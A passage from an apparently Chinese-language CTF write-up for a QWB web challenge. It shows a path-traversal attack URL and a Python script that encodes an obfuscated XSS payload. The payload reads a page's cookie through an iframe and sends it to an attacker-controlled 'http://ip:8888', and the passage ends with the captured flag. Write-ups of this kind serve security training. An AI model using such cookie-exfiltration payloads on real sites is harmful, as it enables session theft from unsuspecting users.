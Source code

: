 &emsp;&emsp;然后提交攻击链接：
```
http://39.107.33.96:20000/index.php/view/article/1198/aaaaa/..%2f..%2f../
```
&emsp;&emsp;接着就能在服务器上收到`hint`。
<div align="center">
    <img src="/images/posts/qwb/21.png" />  
</div>
&emsp;&emsp;这里提示`flag`在`/QWB_fl4g/QWB/`下的cookie中，所以我们将`iframe`的`src=/QWB_fl4g/QWB/`。代码如下：
```python
s="""var i=document.createElement("iframe");
i.src="/QWB_fl4g/QWB/";
i.id="a";
document.body.appendChild(i);
i.onload = function (){
    var c=document.getElementById('a').contentWindow.document.cookie;
    location.href="http://ip:8888?xx="+c;
}"""

print "eval(String.fromCharCode(",
for i in s:
    print str(ord(i))+",",

print "))",
```
&emsp;&emsp;跟上面同样的套路走起，最终获得flag：`QWB{flag_is_f43kth4rpo}`。
<div align="center">
    <img src="/images/posts/qwb/22.png" />  
</div>


&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
&emsp;&emsp;
